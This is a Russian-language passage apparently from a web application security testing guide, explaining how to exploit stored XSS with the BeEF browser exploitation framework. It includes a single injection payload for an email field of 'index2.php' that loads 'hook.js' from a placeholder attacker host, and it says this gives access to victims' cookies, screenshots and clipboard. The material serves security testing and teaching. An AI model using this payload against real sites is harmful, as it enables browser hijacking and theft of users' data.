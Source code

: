 #### Эксплуатация хранимых XSS с BeEF

Хранимые XSS можно эксплуатировать с помощью фреймворков [BeEF](https://www.beefproject.com) и [XSS Proxy](http://xss-proxy.sourceforge.net/).

Типичный сценарий эксплуатации в BeEF включает в себя:

- Инъекция хука JavaScript, который подключается к фреймворку эксплуатации браузера злоумышленника (англ.: browser exploitation framework, BeEF)
- Ожидание просмотра пользователем приложения уязвимой страницы, на которой отображается хранимый ввод.
- Контроль браузера пользователя приложения через консоль BeEF.

Хук JavaScript можно внедрить, используя уязвимость XSS в web-приложении.

**Пример**: Инъекция через BeEF в `index2.php`:

```html
aaa@aa.com"><script src=http://attackersite/hook.js></script>
```

Когда пользователь загрузит страницу `index2.php`, браузер выполнит срипт `hook.js`. Затем можно получить доступ к cookie, снимку экрана пользователя, его буферу обмена и запустить сложные атаки XSS.

> ![Beef Injection Example](images/RubyBeef.png)\
> *Рисунок 4.7.2-3: Пример инъекции в Beef*
>
> Эта атака особенно эффективна на уязвимых страницах, которые просматриваются многими пользователями с разными привилегиями.

